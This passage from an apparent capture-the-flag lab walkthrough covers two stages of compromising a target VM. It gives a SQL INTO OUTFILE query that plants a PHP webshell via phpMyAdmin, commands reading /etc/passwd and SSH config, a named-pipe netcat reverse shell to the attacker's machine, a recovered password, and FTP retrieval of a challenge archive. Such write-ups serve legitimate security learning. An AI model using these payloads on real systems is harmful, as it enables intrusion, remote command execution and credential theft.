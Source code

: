 ## STEP 3 : PhpMyAdmin 

We can try SQL injection. After few try, we find only one path where we can write, so we run this injection for create backdoor with Webshell : 

`SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>" INTO OUTFILE '/var/www/forum/templates_c/bd.php' `

![](https://github.com/bhm-heddy/tmpb2r/blob/master/ressources/screenshots/webshell_01.png)

We take the opportunity to take more information on the target :

`cat /etc/*-release`
`cat /etc/*-version`
`uname -a`
`cat /etc/passwd`
`cat /etc/ssh/sshd_config/`
`find / -maxdepth 3 -type d -perm -777 2>/dev/null` 
...

to be more comfortable, we gonna create real reverse shell :

On my Vm : 
`rlwrap -r pwncat -l 4444 -vv` 

On the target, `nc` haven't `-e` option, we have to bypass this : 
`mknod /tmp/backpipe p `
`/bin/bash 0</tmp/backpipe 2>&1 | nc my_ip_vm 4444 1>/tmp/backpipe`

![](https://github.com/bhm-heddy/tmpb2r/blob/master/ressources/screenshots/reverse_shell_01.png)

We have now a new id `lmezard:G!@M6f4Eatau{sF"` 

lmezard doesnt allow to connect with ssh

## STEP 4 : FTP

We can connect to ftp with previos login. Inside we find file name `fun`. 

After downloading it, we know it's an archive tar.
`mv fun fun.tar`
`tar xvf fun.tar`

Inside 750 file {name}.pcap but apparently unrelated to network traffic.

` cat $(ls -1 | head -n 5) `
```
void useless() {

//file12}void useless() {

//file265}void useless() {

//file355}void useless() {

//file82        printf("Hahahaha Got you!!!\n");

//file142    
```
